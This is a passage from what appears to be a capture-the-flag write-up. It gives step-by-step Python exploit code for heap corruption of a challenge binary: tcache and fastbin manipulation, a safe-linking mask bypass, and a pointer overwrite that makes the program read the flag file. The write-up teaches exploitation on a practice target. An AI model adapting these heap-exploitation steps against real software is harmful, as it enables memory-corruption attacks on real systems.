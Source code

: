 ```python
delete_cookie(15) # Fills up the tcache again
create_cookie()   # Ends up in the top chunk
delete_cookie(32) # Ends up in fastbins
r.sendline(b'5' * 0x400)
r.recvuntil(b'-----------------------------------------')
```

We empty the tcachebin for size 0x80 because we will need to allocate 8-ball
user input buffers from the top chunk. The first buffer allocated now from the
tcache will be at offset 0xe80 from the heap base.

```python
for i in range(7):
    create_ball(b"./flag.txt\x00")
# +17 because "Oh Magic 8 Ball, " prepended to our input
flag_txt = heap_base + 0xe80 + 17
```

We finally allocate our 0x10 user input buffer with `store_lucky_num()` where
`c[32].this` is still pointing. The 8-ball buffer allocated right after that is
used to fix `c[32].this->my_entry`: otherwise `delete_cookie` will detect
corruption. `c[32].this->my_entry` should point at `&c[32]`, i.e. `c + 32 *
0x10`, i.e. `section_data_address + 0xA0 + 32 * 0x10`.

```python
create_lucky_number() # Ends up at c[32].this
create_ball(fit({
    0x68 - 0x20 - 17: p64(section_data_address + 0xA0 + 32 * 0x10)
}))
```

Now we free cookie 32 and corrupt its forward pointer. We want the next chunk to
start at `.data + 0x30`, where the pointer to `"./oracle.txt"` is stored.
Therefore, accounting for chunk metadata, the fastbin forward pointer must point
at `.data + 0x20`. We have to apply the safe linking mask. We are lucky enough
not to have any alignment issues with this address, because `.data + 0x28`
contains the quadword `0x21` that matches exactly the size of our chunks.

```python
delete_cookie(32)
protect_mask = (heap_base >> 12) + 1
update_lucky_number(p64(protect_mask ^ (section_data_address + 0x20)))
```

We still have to consume one fastbin still with `get_lucky_num` and then we will
overwrite the target pointer without messing up the next quadword.

```python
get_lucky()
sign(p64(flag_txt) + b'\x0b')
```

Now if you choose option 6 for a few times at the menu you will read a random
line from `./flag.txt`!

Many thanks to Gabriele Digregorio and to Lorenzo Binosi who wrote the exploit
with me!
